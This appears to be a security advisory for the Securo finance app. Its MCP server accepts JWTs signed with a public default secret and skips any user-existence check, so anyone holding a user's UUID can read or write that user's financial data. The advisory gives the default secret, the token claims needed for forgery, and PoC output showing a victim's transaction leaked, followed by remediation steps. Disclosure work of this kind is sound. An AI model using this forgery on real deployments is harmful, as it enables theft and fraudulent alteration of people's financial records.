

# Public Default MCP JWT Secret and Unauthenticated `/mcp` Exposure in Securo Enable Cross-User Financial Data Access

| Field | Value |
|---|---|
| Project | [securo-finance/securo](https://github.com/securo-finance/securo) |
| Vulnerability Type | Use of Hard-coded Cryptographic Key (CWE-321) / Missing Authorization (CWE-862) |
| Severity | Critical — CVSS 3.1 Base Score: 9.1 |
| CVSS Vector | `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` |
| Affected Versions | <= 0.16.4 (verified on 0.16.4, latest release as of 2026-10-14; commit `b0ad4cf`) |
| Authentication | Forged bearer token (public default signing key) |

---

## Summary

The optional AI Agents module ships a separate MCP server (`backend/mcp_server/main.py`, uvicorn on `0.0.0.0:8765`) exposing full-read financial tools (`list_transactions`, `accounts`, `reports`, `budgets`, `search`, `knowledge`) and persistent write-proposal tools over JSON-RPC at `/mcp`. Its only authentication is JWT signature/issuer/audience verification, signed with `AGENTS_MCP_JWT_SECRET` — whose defaults are public strings:

- code default: `backend/app/agents/config.py:30` — `mcp_jwt_secret = "change-me-in-production"`
- `docker-compose.yml:57` and `docker-compose.prod.yml:55` — `dev-mcp-secret-change-in-production`
- `charts/securo/values.yaml:38` — the same literal

The official `install.sh` writes only `SECRET_KEY` and Pluggy keys into `.env`, and `.env.example` does not contain the variable at all, so installs that enable Agents run the MCP server with a public key. The verifier additionally takes `sub` as the acting user without any user-existence or membership check, and the Helm chart's Ingress routes `/mcp` to the server whenever Agents are enabled. An attacker who learns any user's UUID (e.g. via the user-directory endpoint) mints a token offline and reads or writes that user's financial data through the public default secret.

## Details

`backend/mcp_server/auth.py` (0.16.4, `verify_request`):

```python
JWT_ISSUER = "securo-backend"
JWT_AUDIENCE = "securo-mcp"

def verify_request(request: Request) -> CallContext:
    ...
    payload = jwt.decode(
        token,
        _settings().mcp_jwt_secret,          # public default
        algorithms=[JWT_ALGO],
        audience=JWT_AUDIENCE,
        issuer=JWT_ISSUER,
    )
    ...
    sub = payload.get("sub")
    ...
    return CallContext(user_id=user_id, ...)   # no user-existence check
```

`backend/app/agents/config.py:30`:

```python
mcp_jwt_secret: str = "change-me-in-production"
```

The tool layer resolves the victim's default workspace when the token carries no `ws_id` claim, so only the `sub` UUID is needed. With the Helm Ingress template routing `/mcp` to this process, the forged call is remotely exploitable on production deployments that enabled the Agents profile.

## PoC

Verified on release 0.16.4 (source tarball, commit `b0ad4cf`): backend and MCP server started with `uvicorn` (app + mcp_server) against Postgres/Redis with **no** `AGENTS_MCP_JWT_SECRET` set — the state of any documented install that enables Agents without knowing the variable exists. The victim (an instance user) had one seeded private transaction (`Salary deposit CANARY`, USD 5230). The forged token is built with the Python standard library using only the public default string.

**Step 1: forge the MCP token offline**

```
{"sub": "<victim uuid>", "iss": "securo-backend", "aud": "securo-mcp", ...}
signed HS256 with "change-me-in-production"
```

**Step 2: call the financial tool through `/mcp`**

```bash
python3 poc_default_jwt_secret_forge.py    # section [4]
```
```
-- [4] forge MCP JWT (iss=securo-backend, aud=securo-mcp) -> list_transactions --
    HTTP 200 {"jsonrpc":"2.0","id":1,"result":{"content":[{"type":"text","text":"{\"items\":
    [{\"id\": \"23dcea50-...\", \"date\": \"2026-10-01\", \"description\": \"Salary deposit CANARY\",
    \"amount\": 5230.0, ...}...
    [VULN] victim's private transaction returned to the forged token
```

**Step 3: negative control — same token signed with a wrong secret**

```
-- [5] negative control: MCP token with WRONG secret --
    HTTP 401 {"jsonrpc":"2.0","id":null,"error":{"code":-32001,"message":"invalid token: Signature verification failed."}}
    [OK] rejected
```

**Real-environment reproduction** (the product itself, run for this test): the transcript is a live JSON-RPC exchange with the release 0.16.4 MCP server (34 tools registered) started with default configuration; the forged bearer token returned the victim's transaction data, and the wrong-signature control was rejected — confirming the public default secret is the enabling condition.



---

## Impact

On any Agents-enabled deployment that did not set `AGENTS_MCP_JWT_SECRET`:

- **Cross-user financial data theft** — full transaction history, account balances, budgets, reports, and knowledge-base contents for any user whose UUID is known (the backend's user-directory endpoint hands them to any registered user)
- **Persistent fraudulent writes** — write-proposal tools (`propose_create_transaction`, etc.) act in the victim's name
- **Remote exposure** — the Helm Ingress path makes `/mcp` internet-reachable on production installs; the compose profile binds `0.0.0.0:8765` by default

### Remediation

1. Derive the MCP signing key from a randomly generated per-install secret (or from `SECRET_KEY` after it is itself randomized) and refuse to start with any known public default.
2. Remove the literal fallback in `docker-compose.yml`, `docker-compose.prod.yml`, and `charts/securo/values.yaml`; add `AGENTS_MCP_JWT_SECRET` to `.env.example` and emit a generated value from `install.sh`.
3. Validate that the JWT `sub` resolves to an existing, active user and that the token's workspace claim belongs to them before executing tools.
4. Keep `/mcp` off the public Ingress by default; require an explicit opt-in with an authenticated gateway in front.
